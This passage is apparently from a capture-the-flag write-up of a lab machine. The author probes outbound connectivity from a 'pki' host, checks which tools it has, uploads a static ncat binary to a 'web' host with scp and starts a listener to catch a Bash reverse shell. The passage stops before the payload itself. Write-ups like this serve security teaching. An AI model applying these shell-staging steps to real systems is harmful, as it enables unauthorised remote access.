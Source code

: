 ![image-20210805080950176](https://0xdfimages.gitlab.io/img/image-20210805080950176.png)

#### Connectivity

I tried to get pki to ping both my tun0 address (10.10.14.19) and and my tun9
address (172.30.0.9). Neither reached my host. It seems that pki can’t connect
back.

![image-20210805081023088](https://0xdfimages.gitlab.io/img/image-20210805081023088.png)
![image-20210805081052255](https://0xdfimages.gitlab.io/img/image-20210805081052255.png)

I can ping web:

![image-20210805081122990](https://0xdfimages.gitlab.io/img/image-20210805081122990.png)

Perhaps there is an outbound firewall rule blocking certain connections.

#### Looking for Tools on pki

To figure out how to create a reverse shell, I need to know what tools on are
pki. Because `which` returns nothing if the tool isn’t found in the current
path, I’ll use the command `which [command] || echo "not found"`, so that I
can refresh quickly until I see a path or “not found”. I’ll start with `id`
since that should be on the box, and it is:

![image-20210805081425143](https://0xdfimages.gitlab.io/img/image-20210805081425143.png)

`curl` is not:

![image-20210805081455170](https://0xdfimages.gitlab.io/img/image-20210805081455170.png)

`wget`, `nc`, and `python` are not either. `bash` is at `/bin/bash`. `python3`
and `perl` are both present as well.

#### Shell

web doesn’t have `nc`. I’ll grab a statically compiled copy from
[here](https://github.com/andrew-d/static-
binaries/blob/master/binaries/linux/x86_64/ncat), and `scp` it to web:

    
    
    oxdf@parrot$ scp -i ~/keys/static-www-data-172.20.0.10 ncat www-data@172.20.0.10:/tmp/nc
    ncat                                    100% 2846KB   3.8MB/s   00:00
    

I can’t listen on 443 as a non-root user, so I’ll pick a high port:

    
    
    www-data@web:~$ /tmp/nc -lnvp 4433
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    

I’ll first try a Bash reverse shell (with the `&` encoded as `%26` to not
confuse the web request):
